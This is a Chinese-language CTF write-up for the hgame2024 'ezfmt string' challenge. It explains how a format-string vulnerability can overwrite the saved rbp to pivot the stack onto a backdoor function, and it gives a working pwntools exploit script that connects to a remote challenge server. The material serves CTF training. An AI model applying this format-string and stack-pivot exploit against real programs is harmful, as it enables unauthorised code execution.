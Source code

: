 ```yaml
---
title: hgame2024 week1 - ezfmt string 
date: 2024/2/5 19:50:00
updated: 2024/7/25 12:34:56
tags:
    - fmt-string
    - stack pivot
    - 1-digit guess
excerpt: CTF题目利用格式化字符串漏洞和栈迁移执行后门函数，需猜测rbp地址。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

考察格式化字符串却不给libc，说明要找共通之处，先patch一下2.31，发现依赖更高版本，
遂尝试2.35，两者不变的地方在于靠近rbp的位置有一个指向rbp的指针，并且binary中还有一个后门函数。
如果直接把后门函数写到retAddr上，那么会因为栈无法对齐而SIGSEGV，于是可以修改rbp，打栈迁移，
把栈迁移到输入的后门函数地址的下方，这样在main函数返回时就会执行之；不过输入前没有输出，
栈迁移到哪里是盲打的，只有1/16的概率能够命中

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int, rbp:int=0x58):
    global sh
    if lo:
        sh = process('./fmt')
        if lo & 0b10:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32034)
    elf = ELF('./fmt')
    sysAddr = elf.symbols['sys']

    if lo & 0b100:
        byte = int(input('input known addr of rbp( & 0xff ):'), 16) # 输入sysAddr - 8的最后一字节以准确命中
    else:
        byte = rbp

    # payload, stack pivot to &sysAddr
    sh.sendline(f'%{byte}c%18$hhn'.ljust(0x10).encode() + p64(sysAddr)) # <- sysAddr is here

    sh.clean(0.5) # have a clean shell
    sh.interactive()
```
